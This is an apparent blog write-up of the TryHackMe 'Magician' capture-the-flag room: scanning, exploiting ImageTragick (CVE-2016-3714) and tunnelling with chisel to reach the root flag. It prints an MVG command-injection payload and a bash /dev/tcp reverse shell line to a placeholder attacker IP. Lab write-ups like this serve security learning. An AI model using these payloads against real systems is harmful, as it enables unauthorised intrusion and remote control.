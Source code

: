 ```yaml
---
layout: post
author: Razor
title: "Tryhackme Magician"
categories: [Tryhackme, Linux]
tags: [boot2root, easy-box, web exploitation, enumeration, cve]     # TAG names should always be lowercase
image: assets/thm_magician/bg.png
toc: true
---
```


## Introduction
This is partical room from tryhackme entitled "Magician" with Easy difficulty. In this room we will learn about Exploitation RCE with multiple vulnerabilities in ImageMagick from CVE-2016–3714 and Tunneling port. We will doing to getting shell from web then tunneling listening port to getting another web which contain root flag. Link room [here](https://tryhackme.com/room/magician)

## Scanning

### Nmap

```bash
$ nmap -sC -sV -oA nmap/nmap 10.10.74.239
Nmap scan report for 10.10.74.239
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 23 17:27:16 2021 -- 1 IP address (1 host up) scanned in 37.43 seconds
```
We just have 2 port open like FTP and Webservice (nginx). now i want to try login ftp with anonymous login. 

![img](/assets/thm_magician/bg_1.png)

As you can see we can't let in but there is have some hint for us. I'm going to https://imagetragick.com which is POC of CVE-2016–3714. Now before going to web we must put host in /etc/hosts. 
```bat 
127.0.0.1       localhost
127.0.1.1       Razor

# CTF
10.10.74.239 magician

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

![img](/assets/thm_magician/bg_2.png)

I'm trying to using burpsuite and test POC from imagetragick which we found before.

![img](/assets/thm_magician/bg_3.png)

## Exploit

then i'm try to following POC from imagetragick and checking with ping back to my ip using tcpdump `$ sudo tcpdump -i tun0 host magician and -n icmp`.

```bat
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oos.jpg";ping -c5 10.2.47.251")'
pop graphic-context
```

![img](/assets/thm_magician/bg_4.png)

### Getting Shell

And its works. i got ping back from web, So we can create revershell with `bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1` then prepare for revershell with nc `nc -lvnp <PORT>` 

![img](/assets/thm_magician/bg_5.png)

Now i got shell, then let's make it shell to real shell .

![img](/assets/thm_magician/bg_6.png)

## Flag User.txt

As you can see we got user magician and let's take the flag :D

```bash
magician@magician:~$ cd /home/magician/
magician@magician:~$ cat user.txt 
THM{s----REDACTED----x}
magician@magician:~$ 
```

There is have some files namely `the_magic_continues` , let's take a look the file :

![img](/assets/thm_magician/bg_7.png)

There is give me some hint again then let's take a look port on This machines `(netstat -punta || ss --ntpu) | grep "127"`.

![img](/assets/thm_magician/bg_8.png)

There are many methods we can use to tunnel the port. In this case I will use chisel and you can download that in [here](https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_linux_amd64.gz), Then uploaded to machine.

![img](/assets/thm_magician/bg_9.png)

Now we can setup the Chisel : 
- First create server reverse port to tunneling port `./chisel server --reverse --port 4242`.
![img](/assets/thm_magician/bg_10.png)
- Then create client on machines and setting R port to 6969 for access in web "localhost:6969" `./chisel client 10.2.47.251:4242 R:6969:localhost:6666`.
![img](/assets/thm_magician/bg_11.png)

Now we done for setup tunneling localhost:6666 to localhost:6969(In My Machine). Now let's take a look the browser 

![img](/assets/thm_magician/bg_12.png)

Then just type `/root/root.txt`

![img](/assets/thm_magician/bg_13.png)

## Flag Root.txt

There is a Binary and we can convert to ASCII   

![img](/assets/thm_magician/bg_14.png)

Then we have flag for root not :D

so that's all the writeup that I made, now we have user flag and root flag. 

Happy hacking :D 
